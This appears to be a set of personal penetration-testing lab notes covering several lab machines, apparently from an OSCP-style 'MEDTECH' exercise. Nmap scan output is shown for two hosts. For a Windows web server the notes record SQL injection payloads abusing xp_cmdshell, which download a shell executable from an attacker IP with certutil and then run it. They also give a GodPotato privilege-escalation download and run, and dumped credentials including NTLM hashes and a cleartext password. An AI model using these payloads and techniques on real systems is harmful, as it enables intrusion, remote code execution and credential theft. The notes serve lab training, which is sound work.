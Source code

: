 # VM 3
- ?
- ```
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
    | ssh-hostkey: 
    |   3072 84:72:7e:4c:bb:ff:86:ae:b0:03:00:79:a1:c5:af:34 (RSA)
    |   256 f1:31:e5:75:31:36:a2:59:f3:12:1b:58:b4:bb:dc:0f (ECDSA)
    |_  256 5a:05:9c:fc:2f:7b:7e:0b:81:a6:20:48:5a:1d:82:7e (ED25519)
    80/tcp open  http    WEBrick httpd 1.6.1 (Ruby 2.7.4 (2021-07-07))
    |_http-title: PAW! (PWK Awesome Website)
    |_http-server-header: WEBrick/1.6.1 (Ruby/2.7.4/2021-07-07)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  ```
## Foothold


# VM 4
- Web02
- Microsoft Windows Server 2022 Standard
- 10.0.20348 N/A Build 20348

## FootHold
- Ez SQLi
    ``` 
    ';EXEC master.dbo.xp_cmdshell 'ping 192.168.45.219';--
    ';EXEC master.dbo.xp_cmdshell 'certutil -urlcache -split -f http://192.168.45.219/shell.exe C:\\Windows\temp\shell.exe';--
    ';EXEC master.dbo.xp_cmdshell 'cmd /c C:\\Windows\\temp\\shell.exe';--
    ```
## Root 
- SeImpersonate Permission Found & NET4.0 -> GodPotato
  ```
    iwr -uri http://192.168.45.155/GodPotato-NET4.exe -Outfile GodPotato-NET4.exe
    .\GodPotato-NET4.exe -cmd 'whoami'
    .\GodPotato-NET4.exe -cmd 'C:\Windows\temp\shell.exe'
   ```
- Interesting Info
    1. ``` 
            Version: NetNTLMv2
            Hash:    WEB02$::MEDTECH:1122334455667788:757d0de376d8456d510a56bbc91d2ab2:0101000000000000229fe7efdce0da013a25e15c16fb223a000000000800300030000000000000000000000000300000d8c929a18f8306528b604ac0f3f091c5301c8c3d9d4689b5c867902e15f0f4230a00100000000000000000000000000000000000090000000000000000000000
      ```
    2. Joe 
      ```
        Authentication Id : 0 ; 283886 (00000000:000454ee)
        Session           : Service from 0
        User Name         : joe
        Domain            : MEDTECH
        Logon Server      : DC01
        Logon Time        : 4/8/2024 12:06:58 PM
        SID               : S-1-5-21-976142013-3766213998-138799841-1106
                msv :
                [00000003] Primary
                * Username : joe
                * Domain   : MEDTECH
                * NTLM     : 08d7a47a6f9f66b97b1bae4178747494
                * SHA1     : a0c2285bfad20cc614e2d361d6246579843557cd
                * DPAPI    : 58de53296298ce0f98087ae902c88735
                tspkg :
                wdigest :
                * Username : joe
                * Domain   : MEDTECH
                * Password : (null)
                kerberos :
                * Username : joe
                * Domain   : MEDTECH.COM
                * Password : Flowers1
                ssp :
                credman :
                cloudap :
        ```

# VM 5
- ?
- ```
    PORT     STATE SERVICE  VERSION
    22/tcp   open  ssh      OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 60:f9:e1:44:6a:40:bc:90:e0:3f:1d:d8:86:bc:a9:3d (ECDSA)
    |_  256 24:97:84:f2:58:53:7b:a3:f7:40:e9:ad:3d:12:1e:c7 (ED25519)
    1194/tcp open  openvpn?
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  ```
